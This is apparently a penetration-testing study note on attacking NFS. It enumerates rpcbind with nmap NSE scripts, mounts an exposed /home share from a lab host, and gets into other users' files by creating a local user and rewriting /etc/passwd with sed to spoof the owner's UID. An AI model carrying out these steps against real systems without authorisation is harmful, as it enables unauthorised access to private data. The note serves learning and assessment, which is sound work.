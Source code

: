 


Network File System - Distributed file system protocol allowing a user on a client computer to access files over a computer network as if they were on locally-mounted storage.  
  
Often used w/ UNIX OS's, predominantly insecure in its implementation, and easy to leverage.  
  
  
**Portmapper** and [RPCbind](RPCbind.md) run on 111/TCP  
```bash
nmap -sV -p 111 --script=rpcinfo <ip>
```


**Portmapper** manages the port mappings of a UPnP enabled internet gateway device in the local network  
  
[RPCbind](RPCbind.md) maps RPC services to the ports on which they listen  
  
  
[nmap](nmap.md) - has 3 [NSE scripts](NSE.md) located in _/usr/share/nmap/scripts/nfs*_  
  
Can be run together: 
```bash
nmap -p 111 --script=nfs* <ip>
```

 
Nmap scan report for 10.11.1.72  
PORT STATE SERVICE  
111/tcp open rpcbind  
| nfs-showmount:  
|_ /home 10.11.0.0/255.255.0.0  
  
^^ Shows the entire **/home** directory is being shared and can be mounted.  
  
**-o** **nolock** is used to disable file locking - often needed for older NFS servers  
  
```bash
mkdir home  
sudo mount -o nolock 10.11.1.72:/home ~/home/  
cd home/ && ls  
        jenny joe45 john marcus ryuu
```

^^ Shows multiple users' home directories  
  
Likely won't have permission to view files, so we can [adduser](User%20Mgmt.md), use [sed](sed.md) to change it's UUID to the same UUID of the owner of the desired file, [su](User%20Mgmt.md) to that user, and try accessing again.  
  
To change a UUID:  
```bash
sudo sed -i -e 's/old_UUID/new_UUID/g' /etc/passwd
```